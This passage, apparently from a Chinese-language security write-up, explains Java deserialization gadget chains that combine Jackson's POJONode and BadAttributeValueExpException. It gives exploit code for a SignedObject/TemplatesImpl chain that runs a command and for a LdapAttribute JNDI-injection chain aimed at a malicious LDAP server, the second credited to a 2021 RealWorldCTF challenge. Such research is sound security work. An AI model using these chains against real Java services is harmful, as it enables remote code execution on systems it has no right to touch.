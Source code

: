 BadAttributeValueExpException ->  POJONode.toString -> **SignedObject -> BadAttributeValueExpException -> POJONode.toString** -> getter(TemplateImpl.getOutputProperties)

EXP 如下：
```java
    public static POJONode toString2RCEWithSignedObject(String cmd) throws Exception {
        TemplatesImpl evilTemplates = GTemplates.getEvilTemplates(cmd);
        POJONode jsonNodes1 = new POJONode(evilTemplates);
        BadAttributeValueExpException e = GBadAttributeValueExpException.deserialize2ToString(jsonNodes1);
        SignedObject signedObject = GSignedObject.getter2Deserialize(e);

        POJONode jsonNodes2 = new POJONode(signedObject);
        return jsonNodes2;
    }

    public static void main(String[] args) throws Exception {
        POJONode jsonNodes = toString2RCEWithSignedObject("mate-calc");
        BadAttributeValueExpException bd = GBadAttributeValueExpException.deserialize2ToString(jsonNodes);
        SerializeUtils.serialize(bd, "/tmp/ser.bin");
        SerializeUtils.deserialize("/tmp/ser.bin");
    }
```

### LdapAttribute 利用链
LdapAttribute 这条利用链在 2021 年 realworldctf 中由 voidfyoo 给出，com.sun.jndi.ldap.LdapAttribute 这个类的 getAttributeDefinition 方法存在 JNDI LDAP 注入

```java
    public DirContext getAttributeDefinition() throws NamingException {
        DirContext var1 = this.getBaseCtx().getSchema(this.rdn);
        return (DirContext)var1.lookup("AttributeDefinition/" + this.getID());
    }
```

结合 POJONode 可以触发任意 getter 方法，利用链如下：

BadAttributeValueExpException ->  POJONode.toString -> LdapAttribute#getAttributeDefinition

EXP 如下，为了直观并没有将部分功能函数给出，其中 ldap://127.0.0.1:1389/ 是本地监听的恶意 LDAP 服务。
```java
public class GLdapAttribute {
    public static Object getter2RCE(String ldapServerURL) throws Exception {
        String ldapCtxUrl = ldapServerURL;
        Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
                new Class[] {String.class});
        ldapAttributeClazzConstructor.setAccessible(true);
        Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
                new Object[] {"name"});

        ReflectUtils.setFieldValue(ldapAttribute,"baseCtxURL", ldapCtxUrl);
        ReflectUtils.setFieldValue(ldapAttribute,"rdn", new CompositeName("a//b"));

        return ldapAttribute;
    }

    public static void main(String[] args) throws Exception {
        Object o = getter2RCE("ldap://127.0.0.1:1389/");
        POJONode jsonNodes = GJackson.toString2Getter(o);
        BadAttributeValueExpException bd = GBadAttributeValueExpException.deserialize2ToString(jsonNodes);
        byte[] serialize = SerializeUtils.serialize(bd);
        SerializeUtils.deserialize(serialize);
    }
}
```